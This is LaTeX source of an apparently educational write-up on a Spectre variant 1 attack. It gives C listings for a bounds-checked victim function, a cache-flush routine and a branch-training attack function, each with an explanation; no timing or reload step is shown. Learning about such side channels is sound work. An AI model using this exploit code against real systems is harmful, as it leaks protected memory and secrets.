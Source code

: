 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Restricted Access}
\begin{lstlisting}[style=CStyle]
uint8_t restrictedAccess(size_t x)
{
	if (x < buffer_size) {
		return buffer[x];
	} 
	else {
		return 0;
	}
}
\end{lstlisting}
This is a simple C function which gives access to elements within buffer\_ size and \textbf{restricts access} to locations \textbf{outside buffer\_size} by returning 0. This is the target of our attack. The aim is to extract information outside buffer\_size using this function 
\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array.\\
Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution} (go through section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any other value can be used instead.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\

\subsubsection{Spectre Attack(varient 1)}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}
\end{document}

